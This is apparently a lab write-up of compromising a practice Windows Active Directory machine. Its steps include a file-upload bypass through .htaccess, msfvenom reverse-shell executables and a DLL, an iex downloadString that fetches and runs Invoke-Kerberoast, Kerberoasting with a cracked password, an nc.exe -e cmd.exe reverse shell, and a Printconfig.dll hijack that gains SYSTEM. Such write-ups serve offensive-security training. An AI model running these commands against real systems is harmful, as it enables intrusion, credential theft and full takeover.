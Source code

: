 #Pwned #Windows #AD #Tokens #FileUpload #Updated
```IP
192.168.232.187
```

# Enumeration
## Nmap
As always I start enumerating target ports with nmap:
```Bash
sudo nmap -sCV 192.168.232.187 -vvv -p- -oN enum/full
```
The output being:
```
PORT     STATE SERVICE       REASON          VERSION                                    53/tcp   open  domain        syn-ack ttl 125 Simple DNS Plus                            80/tcp   open  http          syn-ack ttl 125 Apache httpd 2.4.48 ((Win64) OpenSSL/1.1.1k PHP/8.0.7)
|_http-title: Access The Event
|_http-server-header: Apache/2.4.48 (Win64) OpenSSL/1.1.1k PHP/8.0.7
| http-methods: 
|   Supported Methods: HEAD GET POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-favicon: Unknown favicon MD5: FED84E16B6CCFE88EE7FFAAE5DFEFD34
88/tcp   open  kerberos-sec  syn-ack ttl 125 Microsoft Windows Kerberos (server time: 2024-10-26 10:49:36Z)
135/tcp  open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 125 Microsoft Windows netbios-ssn
389/tcp  open  ldap          syn-ack ttl 125 Microsoft Windows Active Directory LDAP (Domain: access.offsec0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds? syn-ack ttl 125
464/tcp  open  kpasswd5?     syn-ack ttl 125
593/tcp  open  ncacn_http    syn-ack ttl 125 Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped    syn-ack ttl 125
3268/tcp open  ldap          syn-ack ttl 125 Microsoft Windows Active Directory LDAP (Domain: access.offsec0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped    syn-ack ttl 125
Service Info: Host: SERVER; OS: Windows; CPE: cpe:/o:microsoft:windows
```
## HTTP 80
As soon as I saw the HTTP port opened, I started to do some enumeration to it. Firstly we enumerate the directories with ffuf tool, and take notice at some 301 status results.

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241026125821.png?raw=true)

The webpage allows us to upload image files when we try to buy a ticket, but it does not allow to upload php files...

However we can bypass the file extension check when uploading images by using the following extensions in a PHP reverse shell file.
`php%20` works but it does not execute.
`.ctp` also works but does not execute.

Maybe we can edit the .htaccess file in order to allow php files to execute, so we overwrite create in our local machine the following file in order to execute the .ctp as php:
```
echo "AddType application/x-httpd-php .ctp" > .htaccess
```

In order to create a stable reverse shell we can upload a PHP file and a .exe file, the former objective being to execute the second as shown below:

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241026133705.png?raw=true)

To create a .exe windows tcp reverse shell we can use the following command:
```
msfvenom -p windows/shell_reverse_tcp  LHOST=192.168.45.187 LPORT=443 -f exe -o rev.exe
```

Then we upload all three files rev.exe, run.ctp and the new .htaccess. Afterwards we execute the run.ctp. It will call rev.exe and give us a revshell in our nc listener:

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241026134026.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241026133617.png?raw=true)

As we can see, we have gained access as service account svc_apache, so our next step will be privilege escalation.
# PrivEsc

## Manual
Being a service account, we do not have access to local.txt flag. By enumerating domain users we see MSSQL service account. A possible exploitation could be to ask for a kerberos ticket.

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241027102748.png?raw=true)

In order to do that we would need the SPN. With `Get-SPN.ps1` powershell script we can get the SPN of the MSSQL account:

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241027102834.png?raw=true)

And with the following powershell commands we will obtain the kerberos hash:
```powershell
Add-Type -AssemblyName System.IdentityModel
```
```powershell
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'MSSQLSvc/DC.access.offsec'  
iex(new-object net.webclient).downloadString('http://192.168.45.201:80/Invoke-Kerberoast.ps1'); Invoke-Kerberoast -OutputFormat Hashcat
```
With `jhon` tool we crack the obtained hash and we get the following password:
```
trustno1
```
Now we can enum shares to check if svc_mssql account has any interesting shares:
```bash
 nxc smb 192.168.232.187 -u 'svc_mssql' -p 'trustno1' --shares
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241027112559.png?raw=true)

None. We can try to get command execution with svc_mssql. To do so, we will download and execute `invoke-runas` script. First we will send a whoami command to check it works:
```powershell
.\Invoke-RunasCs -Username svc_mssql -Password "trustno1" -Command "whoami"
```
It works! So we can upload nc.exe and get a reverse shell as shown below:
```powershell
Invoke-RunasCs svc_mssql trustno1 "C:\xampp\htdocs\uploads\nc.exe 192.168.45.201 45 -e cmd.exe"
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241216101223.png?raw=true)

Running `whoami /priv` discloses a SeManageVolumePrivilege  token that we can use for PE. There is an exploit already compiled for this purpose:

https://github.com/CsEnox/SeManageVolumeExploit/releases/tag/public

Running this exploit gives us permissions on 918 entries. Among them we have the following directory:

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241216104138.png?raw=true)

Which previously only administrators had full control:

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241216104229.png?raw=true)

We can hijack one of the systems dll and trigger it in order to get a reverse shell. We will do this with Printconfig.dll. First we will create with msfvenom a malicious.dll containing a reverse shell:
```bash
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=192.168.45.216 LPORT=4444 -f dll -o Printconfig.dll
```
We transfer the file to our target machine and copy it to the following directory:
```powershell
copy Printconfig.dll C:\Windows\System32\spool\drivers\x64\3\
```
And then this dll is triggered by the following commands:
```powershell
$type = [Type]::GetTypeFromCLSID("{854A20FB-2D44-457D-992F-EF13785D2B51}")
```
```powershell
$object = [Activator]::CreateInstance($type)
```
On execution we will get inmediately NT Authority\System access:

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241216105447.png?raw=true)
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241216105437.png?raw=true)

Therefore, we can retrieve proof.txt flag:

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241216105535.png?raw=true)

Pwned!

